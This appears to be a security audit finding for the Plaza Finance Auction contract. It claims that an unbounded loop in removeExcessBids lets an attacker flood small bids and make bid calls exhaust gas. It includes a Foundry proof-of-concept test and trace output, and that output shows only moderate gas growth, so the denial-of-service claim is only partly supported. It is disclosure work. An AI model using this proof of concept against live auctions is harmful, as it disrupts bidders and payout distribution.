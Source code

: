 Radiant Peanut Ram

Medium

# ### Unbounded Loop in  `Auction:: removeExcessBids` function causes DOS in `bid`.

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L250



### summary
 The issue arises from an unbounded loop that processes bids sequentially without limits, resulting in excessive gas consumption when handling a large number of small bids requiring removal in `removeExcessBids`. 
An attacker can force the `Auction:: removeExcessBids`  to process numerous small bids, each requiring partial reductions, which results in excessive gas consumption. This ultimately causes the transaction to fail due to exceeding the gas limit.This issue directly affects the `bid` function, making it prohibitively expensive to execute. In turn, the auction becomes unusable for future legitimate bids, disrupting the auction process.

### Root Cause
The core of the vulnerability lies in the unbounded loop in the removeExcessBids function, which processes all excess bids sequentially without any gas limit or iteration controls. The function does not limit the number of iterations, which means that if there are many bids to process, the loop can consume a significant amount of gas and potentially cause the transaction to revert before completion.

Since there is no bounded iterations, the function can run indefinitely or until it consumes all available gas, especially when there are many bids in the auction with small amounts to be removed.

```javascript


function removeExcessBids() internal {
    if (currentCouponAmount <= totalBuyCouponAmount) {
      return;
    }

    uint256 amountToRemove = currentCouponAmount - totalBuyCouponAmount;
    uint256 currentIndex = lowestBidIndex;


    while (currentIndex != 0 && amountToRemove != 0) {
      // Cache the current bid's data into local variables
      Bid storage currentBid = bids[currentIndex];
      uint256 sellCouponAmount = currentBid.sellCouponAmount;
      uint256 prevIndex = currentBid.prevBidIndex;

      if (amountToRemove >= sellCouponAmount) {
        // Subtract the sellAmount from amountToRemove
        amountToRemove -= sellCouponAmount;

        // Remove the bid
        _removeBid(currentIndex);

        // Move to the previous bid (higher price)
        currentIndex = prevIndex;

```
If `currentIndex` keeps moving through bids and the number of bids is large, the contract could get stuck iterating without making progress, wasting gas and potentially preventing legitimate bids from being processed.



### Attack Path
- The auction collects a large number of bids, creating an extensive array of entries in the bids data structure.
- The attacker submits multiple small bids, each with amounts that are slightly above the threshold required for removal. This would cause the removeExcessBids function to need to process many small bids.
- When a legitimate user attempts to place a new bid:
    - The removeExcessBids function is triggered to remove excess bids and free space for the new bid.
    - The unbounded loop processes all bids, consuming excessive gas due to token transfers, storage writes, and array modifications.
    - If the gas required exceeds the block gas limit, the transaction reverts, leaving the auction in a locked state.




### Impact
When the transaction fails, no bids are removed, and the auction cannot accept new bids, making the auction unusable. The auction could be effectively "stuck," preventing new bids from being placed until the issue is resolved.

`distribution` contract relies on the funds raised from the bids to distribute payouts to bond holders. However, due to the Denial of Service (DOS) vulnerability in the `removeExcessBids` function, the auction becomes unusable, which has a cascading effect on the distribution mechanism.


### POC

```javascript
function testDOSInRemoveExcessBids() public {
    // Setup constants for the attack
    uint256 TOTAL_SMALL_BIDS = 800; // Large number of small bids
    uint256 SLOT_SIZE = 1000000000; // 1 USDC
    uint256 SMALL_BID_AMOUNT = 1; // Minimum bid amount
    uint256 GAS_REPORT_INTERVAL = 100; // Log gas usage every 100 bids
    uint256 slot = auction.slotSize();
    
    // Track gas usage for analysis
    uint256[] memory gasUsage = new uint256[](TOTAL_SMALL_BIDS / GAS_REPORT_INTERVAL);
    uint256 gasReportIndex = 0;
    
    // 1. First create many small bids just above minimum price
    for (uint256 i = 0; i < TOTAL_SMALL_BIDS; i++) {
        bidder = address(uint160(i + 1));
        
        // Setup bidder
        vm.startPrank(bidder);
        usdc.mint(bidder, 100000000000000 ether);
        usdc.approve(address(auction), 10000000000 ether);
        
        // Measure gas usage periodically
        if (i % GAS_REPORT_INTERVAL == 0) {
            uint256 gasBefore = gasleft();
            auction.bid(SMALL_BID_AMOUNT, slot);
            uint256 gasUsed = gasBefore - gasleft();
            gasUsage[gasReportIndex++] = gasUsed;
            emit log_named_uint("Gas used for bid", gasUsed);
        } else {
            auction.bid(SMALL_BID_AMOUNT, slot);
        }
        
        vm.stopPrank();
    }
    
    // Verify initial state
    assertEq(auction.bidCount(), TOTAL_SMALL_BIDS, "Initial bid count incorrect");
    assertEq(auction.highestBidIndex(), 1, "Initial highest bid index incorrect");
    assertEq(auction.lowestBidIndex(), TOTAL_SMALL_BIDS, "Initial lowest bid index incorrect");
    
    // 2. Now place a large bid that will trigger removal of many small bids
    address largeBidder = address(uint160(TOTAL_SMALL_BIDS + 1));
    uint256 largeBidAmount = SMALL_BID_AMOUNT * 2; // Double the small bid amount
    uint256 largeSellAmount = slot * 100; // Large enough to trigger many removals
    
    vm.startPrank(largeBidder);
    usdc.mint(largeBidder, largeSellAmount);
    usdc.approve(address(auction), largeSellAmount);
    
    // Try to place the large bid and measure gas
    uint256 gasBefore = gasleft();
    
    try auction.bid(largeBidAmount, largeSellAmount) {
        uint256 gasUsed = gasBefore - gasleft();
        emit log_named_uint("Gas used for large bid", gasUsed);
        // fail("Expected the transaction to run out of gas");
    } catch Error(string memory reason) {
        emit log_string("Transaction reverted as expected");
        emit log_string(reason);
    } catch (bytes memory) {
        emit log_string("Transaction ran out of gas as expected");
    }
    
    vm.stopPrank();
    
    // 3. Analyze gas usage pattern
    emit log_string("\nGas Usage Analysis:");
    for (uint256 i = 0; i < gasReportIndex; i++) {
        emit log_named_uint(
            string(abi.encodePacked("Gas used at bid #", vm.toString(i * GAS_REPORT_INTERVAL))), 
            gasUsage[i]
        );
    }
    
    
}
emit log_named_uint(key: "Gas used for large bid", val: 125902 [1.259e5])
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ emit log_string(val: "\nGas Usage Analysis:")
    ├─ [0] VM::toString(0) [staticcall]
    │   └─ ← [Return] "0"
    ├─ emit log_named_uint(key: "Gas used at bid #0", val: 244517 [2.445e5])
    ├─ [0] VM::toString(100) [staticcall]
    │   └─ ← [Return] "100"
    ├─ emit log_named_uint(key: "Gas used at bid #100", val: 198090 [1.98e5])
    ├─ [0] VM::toString(200) [staticcall]
    │   └─ ← [Return] "200"
    ├─ emit log_named_uint(key: "Gas used at bid #200", val: 270891 [2.708e5])
    ├─ [0] VM::toString(300) [staticcall]
    │   └─ ← [Return] "300"
    ├─ emit log_named_uint(key: "Gas used at bid #300", val: 343691 [3.436e5])
    ├─ [0] VM::toString(400) [staticcall]
    │   └─ ← [Return] "400"
    ├─ emit log_named_uint(key: "Gas used at bid #400", val: 416492 [4.164e5])
    ├─ [0] VM::toString(500) [staticcall]
    │   └─ ← [Return] "500"
    ├─ emit log_named_uint(key: "Gas used at bid #500", val: 489293 [4.892e5])
    ├─ [0] VM::toString(600) [staticcall]
    │   └─ ← [Return] "600"
    ├─ emit log_named_uint(key: "Gas used at bid #600", val: 562094 [5.62e5])
    ├─ [0] VM::toString(700) [staticcall]
    │   └─ ← [Return] "700"
    ├─ emit log_named_uint(key: "Gas used at bid #700", val: 634895 [6.348e5])
    └─ ← [Return] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.55s (2.53s CPU time)
``` 

gas increase with every iteration making it expensive to call `bid` function.